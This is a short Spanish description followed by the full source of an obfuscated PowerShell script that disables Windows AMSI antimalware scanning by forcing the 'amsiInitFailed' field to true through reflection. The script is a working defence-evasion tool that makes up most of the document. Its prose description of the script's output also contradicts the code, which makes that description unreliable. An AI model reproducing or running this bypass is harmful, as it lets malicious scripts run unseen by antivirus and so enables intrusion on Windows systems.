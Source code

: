 El script de PowerShell intenta deshabilitar el Servicio de Inspección Antimalware (AMSI) de Microsoft, una característica de seguridad de Windows que permite a las aplicaciones antivirus escanear scripts de PowerShell en busca de comportamientos maliciosos.

Primero, la función Is-AMSIDisabled verifica si AMSI está deshabilitado, utilizando Get-variable para obtener una variable específica y comprobando si el campo 'amsi' es verdadero.

Luego, el bloque try intenta deshabilitar AMSI estableciendo el campo 'amsi' en verdadero. Si tiene éxito, imprime "AMSI Successfully Disabled". Si AMSI ya está deshabilitado, imprime "AMSI". Si hay un error, captura la excepción con catch e imprime "Error Disabling AMSI: $_", donde $_ es la excepción capturada.



```
# Verify if AMSI is disabled
function Is-AMSIDisabled {
    return ((Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).GetValue($null) -eq $true
}

# AMSI Bypass
try {
    Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
    (Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})

    if (Is-AMSIDisabled) {
        Write-Output "AMSI"
    } else {
        Write-Output "AMSI Successfully Disabled"
    }
} catch {
    Write-Output "Error Disabling AMSI: $_"
}

```
